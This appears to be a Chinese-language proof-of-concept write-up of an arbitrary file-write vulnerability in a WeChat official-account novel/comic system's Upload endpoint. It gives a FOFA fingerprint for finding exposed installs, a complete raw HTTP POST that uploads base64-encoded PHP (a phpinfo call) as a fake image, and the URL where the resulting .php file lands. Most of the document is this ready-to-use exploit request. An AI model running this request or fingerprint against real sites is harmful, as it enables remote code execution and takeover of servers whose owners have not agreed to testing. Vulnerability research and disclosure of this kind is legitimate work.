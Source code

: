 # 微信公众号小说漫画系统Upload存在任意文件写入漏洞

# 一、漏洞简介
微信公众号小说漫画系统前台任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

# 二、影响版本
+ 微信公众号小说漫画系统

# 三、资产测绘
+ fofa`"/Public/home/mhjs/jquery.js"`
+ 特征

![1728355919795-a0aaf6bf-ee63-459d-998f-cf682a606504.png](./img/8LunnYa6EiTNHnHX/1728355919795-a0aaf6bf-ee63-459d-998f-cf682a606504-753828.png)

# 四、漏洞复现
```java
POST /index.php?m=&c=IndexAjax&a=Upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 78
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; uloginid=107639
Host: 
Origin: http://xxx
Pragma: no-cache
Referer: http://xx/index.php?m=&c=IndexAjax
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

img=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==&size=50
```

![1728355603282-a1e4392b-95c9-483f-9f2c-eb13b14f4231.png](./img/8LunnYa6EiTNHnHX/1728355603282-a1e4392b-95c9-483f-9f2c-eb13b14f4231-087530.png)

```java
https://xxx/Upload/20241008/104249_499.php
```

![1728355659763-20f11b95-adef-4522-8035-d2c07d3d39d2.png](./img/8LunnYa6EiTNHnHX/1728355659763-20f11b95-adef-4522-8035-d2c07d3d39d2-906388.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gzk5f87zuin8ipgr>